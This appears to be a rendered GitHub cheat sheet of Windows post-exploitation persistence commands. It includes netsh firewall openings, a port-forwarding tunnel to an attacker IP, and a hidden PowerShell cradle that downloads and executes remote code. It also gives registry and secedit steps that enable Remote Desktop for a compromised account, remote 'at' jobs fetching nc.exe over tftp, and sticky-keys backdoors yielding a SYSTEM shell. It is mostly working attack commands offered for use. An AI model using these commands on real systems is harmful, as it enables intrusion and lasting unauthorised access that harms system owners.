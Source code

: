 <!-- Code for collapse and expand -->
<script type="text/javascript">
$(document).ready(function() {
$('div.view').hide();
$('div.slide').click(function() {
$(this).next('div.view').slideToggle('fast');
return false;
});
});
</script>

# Windows General Persistence Commands

Commands to run to maintain persistence after you have exploited it and are usually executed from the context of the `cmd.exe` or `command.exe` prompt.

### Firewall Exceptions
When you modify a system to talk on the network, you may need to alter the Windows firewall so your traffic is not filtered. The `netsh` command can be used to do this as the command to enable Remote Desktop Protocol below shows:

`netsh firewall set service type = remotedesktop mode = enable`

### Allow a program to listen through the firewall
Taken from http://synjunkie.blogspot.de/2008/03/basic-dos-foo.html

`netsh firewall add allowedprogram C:\nltest.exe mltest enable`

### Open a port on the firewall
Taken from http://synjunkie.blogspot.de/2008/03/basic-dos-foo.html

`netsh firewall add portopening tcp 2482 lt enable all`


### Tunnel Traffic Natively with Windows
`netsh int portproxy v4tov4 listenport=80 connecthost=[AttackerIP] connectport=80`


### Powershell Downloader
 * **Command with arguments**: `powershell.exe -w hidden -nop -ep bypass -c "IEX ((new-object net.webclient).downloadstring('http://[domainname|IP]:[port]/[file]'))"`
 * **Description**: According to [posted slides](http://www.slideshare.net/mubix/windows-attacks-at-is-the-new-black-26665607), _"Schedule this and it will execute the shellcode on that page, pulling it each time (so you can change as needed)"_.


### Remote Assistance Enable
 * **Command with arguments**: `reg add “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fAllowToGetHelp /t REG_DWORD /d 1 /f`
 * **Description**: **Must be admin to run this.** Enable remote assistance through adding a registry entry on the local system.


### Remote Desktop Enable - Method 1
 * **Command with arguments**: `reg add “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fDenyTSConnections /t REG_DWORD /d 0 /f`
 * **Description**: **Must be admin to run this.** Enable remote desktop through adding a registry entry on the local system.


### Remote Desktop Enable - Method 2
Remote Desktop allows a remote user to receive a graphical "desktop" of the target (compromised) system. According to Val Smith's and Colin Ames' [BlackHat 2008 presentation (page 53)](http://www.blackhat.com/presentations/bh-usa-08/Smith_Ames/BH_US_08_Smith_Ames_Meta-Post_Exploitation.pdf), you can remotely enable remote desktop using the commands below.

 1. On the compromised system, create a file named `fix_ts_policy.ini` containing the contents below. Change the *"hacked_account"* value to the account you have compromised on the remote system.


    <pre>
     [Unicode]
         Unicode=yes
         [Version]
         signature="$CHICAGO$"
         Revision=1
         [Privilege Rights] [Privilege Rights]
         seremoteinteractivelogonright = hacked_account
         seinteractivelogonright = hacked_account
         sedenyinteractivelogonright =
         sedenyremoteinteractivelogonright =
         sedenynetworklogonright =
    </pre>

 1. Create another file named `enable_ts.reg` containing the contents below.



    <pre>

     Windows Registry Editor Version 5.00

     [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]

     "fDenyTSConnections"=dword:00000000

     "TSEnabled"=dword:00000001

     "TSUserEnabled"=dword:00000000

    </pre>



 1. On the remote system, execute the following commands:


```
c:\> sc config termservice start= auto sc config termservice start= auto

c:\> regedit /s enable_ts.reg

c:\> copy c:\windows\security\database\secedit.sdb c:\windows\security\database\new.secedit.sdb

c:\> copy c:\windows\security\database\secedit.sdb c:\windows\security\database\orig.secedit.sdb

c:\> secedit /configure /db new.secedit.sdb /cfg fix_ts_policy.ini

c:\> gpupdate /Force

c:\> net start "terminal services"
```





### Scheduler

The [Windows scheduler](http://support.microsoft.com/kb/313565) can be used to further compromise a system. It usually runs at the SYSTEM account privilege level. According to Val Smith's and Colin Ames' [BlackHat 2008 presentation (page 58)](http://www.blackhat.com/presentations/bh-usa-08/Smith_Ames/BH_US_08_Smith_Ames_Meta-Post_Exploitation.pdf), you can remotely schedule tasks using the commands below.



<pre>

c:\> net use \\[TargetIP]\ipc$ password /user:username

c:\> at \\[TargetIP] 12:00 pm command

</pre>



An example you might run on the remote system might be: `at \\192.168.1.1 12:00pm tftp -I [MyIP] GET nc.exe`


### Scheduling tasks to run under special conditions

One can schedule tasks to run under certain conditions such as when a user logs into the computer or when the computer is idle
with the schtasks command. This can be done by any user and includes the following additional conditions which can come in handy:

* ONIDLE -> Run a command once the system enters an idle state
* ONLOGON -> Run a command when a user logs into the system
* ONSTART -> Run a command when the system starts up
 
 If you would like more information on the various command line options for this tool, Microsoft describes them in great
 detail at: [https://technet.microsoft.com/en-us/library/cc725744.aspx#BKMK_create](https://technet.microsoft.com/en-us/library/cc725744.aspx#BKMK_create)



### Sticky Keys (Requires reboot)

Sticky keys on Windows systems are activated when the user presses the SHIFT key 5 times. Here, according to the [posted slides](http://www.slideshare.net/mubix/windows-attacks-at-is-the-new-black-26665607), you replace the sethc.exe binary with your own binary (cmd.exe maybe?) and, when SHIFT is pressed 5 times, your binary is executed. Your binary will execute as SYSTEM and needs to replace the `%WINDIR%\System32\sethc.exe`.



Some caveats:

* If NLA (Network Layer Authentication) is enabled, this won't work

* If RDP (Remote Desktop Protocol) is disabled, this won't work





### Sticky Keys (No reboot)

This technique uses registry entries to switch the binary that the sticky keys executes. Its real advantage is that it does not require a reboot for the switch to take place.

* In the `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options` make a key called `sethc.exe`

* Make a REG_SZ value called "Debugger" (Ensure it is capitalized)

* For the "Debugger" REG_SZ, make it have a value of your binary

* Press SHIFT 5 times and your binary should be executed
